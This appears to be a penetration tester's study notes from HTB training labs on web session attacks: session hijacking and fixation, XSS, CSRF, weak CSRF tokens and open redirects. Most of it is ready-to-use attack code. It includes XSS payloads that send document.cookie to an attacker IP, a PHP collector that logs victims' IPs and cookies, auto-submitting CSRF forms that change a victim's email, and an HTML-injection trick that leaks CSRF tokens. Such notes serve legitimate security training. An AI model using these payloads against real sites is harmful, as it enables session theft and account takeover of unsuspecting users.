

# Session Security

A user session is a series of requests and responses between a user and a server within a set time.

### <mark style="color:yellow;">Session Hijacking</mark>

Attacker can find a way to obtain session identifiers or cookie and impersonate as the victim, through:

* Passive Traffic Sniffing
* Cross-Site Scripting (XSS)
* Browser history or log-diving
* Read access to a database containing session information

### <mark style="color:yellow;">Session Fixation</mark>

Occurs when attacker fixates a valid session identifier.&#x20;



### Obtain valid session identifier

Either make own account or just visit website for identifier.



### Fixate a valid session identifier

If session ID stays the same before and after login, that session ID can be used.



### Tricking a victim

Send victim a special link with fixed session ID, once victim logins the session can be hijacked.



If you input value in token here and the cookie value is the same there is a session fixation.

```
http://mczen.nl/?redirect_uri=/complete.html&token=0efsfmjup7i1vc2f41fia7k7nl
```

### <mark style="color:yellow;">Cross-Site Scripting (XSS)</mark>

In case of XSS vulnerability steal cookie and catch with netcat.&#x20;

```javascript
<script>fetch(`http://10.10.14.169:8443?cookie=${btoa(document.cookie)}`)</script>
```

### <mark style="color:yellow;">Cross-Site Request Forgery (CSRF or XSRF)</mark>

Cross-Site requests forces a user for example to interact with web pages crafted by an attacker. Same-Origin Policy prevents from seeing responses but CSRF only needs requests to be send, watch for anti-CSRF tokens.

To change values from a user we can create a HTML page like this and host it. Due to CSRF when visiting this html page if will change the data of that user.

```html
<html>
  <body>
    <form id="submitMe" action="http://xss.htb.net/api/update-profile" method="POST">
      <input type="hidden" name="email" value="attacker@htb.net" />
      <input type="hidden" name="telephone" value="&#40;227&#41;&#45;750&#45;8112" />
      <input type="hidden" name="country" value="CSRF_POC" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.getElementById("submitMe").submit()
    </script>
  </body>
</html>
```

In case of anti-CSRF get the token from the GET request and include it in the html page like:

```html
<html>
  <body>
    <form id="submitMe" action="http://csrf.htb.net/app/save/julie.rogers@example.com" method="GET">
      <input type="hidden" name="email" value="attacker@htb.net" />
      <input type="hidden" name="telephone" value="&#40;227&#41;&#45;750&#45;8112" />
      <input type="hidden" name="country" value="CSRF_POC" />
      <input type="hidden" name="action" value="save" />
      <input type="hidden" name="csrf" value="30e7912d04c957022a6d3072be8ef67e52eda8f2" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.getElementById("submitMe").submit()
    </script>
  </body>
</html>
```

If you have control or input over a value and this works:&#x20;

```html
<h1>h1<u>underline<%2fu><%2fh1>
```

Then leak the CSRF token:

```html
http://csrf.htb.net/app/delete/%3Ctable background='%2f%2f<VPN/TUN Adapter IP>:8000%2f
```

### <mark style="color:yellow;">Exploiting Weak CSRF Tokens</mark>

Check how tokens are generated for example using usernames then MD5 hashing them.  It can be as easy as `md5(username)`, `sha1(username)`, `md5(current date + username` .

You can also try NULL values or empty. Or just a random token but same length. Sometimes its possible to use same CSRF tokens across accounts.&#x20;

We can also use verb tampering from POST to GET.

### <mark style="color:yellow;">Open Redirect</mark>

A security flaw to redirect visitors to attacker controlled website. Like here where redirect\_uri where we can input any URL we want.

<figure><figcaption></figcaption></figure>

Then change it to `oredirect.htb.net/?redirect_uri=http://10.10.14.169:8443&token=1nmq2kojj8uba8uo62rq42ro6s` when the user uses the form we data on nc.&#x20;

## Getting multiple cookies

In script.js file save the cookie grabber

```js
new Image().src='http://10.10.14.169:8888/index.php?c=' + document.cookie;
```

Write and host a php file to split cookies if multiple were received.

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

Start listening

```
php -S 0.0.0.0:8888
```

Use XSS to run the script.js&#x20;

```javascript
<script src=http://10.10.14.169:8888/script.js></script>
```

In case you find a CSRF vuln you can use the page where XSS  can be ran and send the URL to a target.
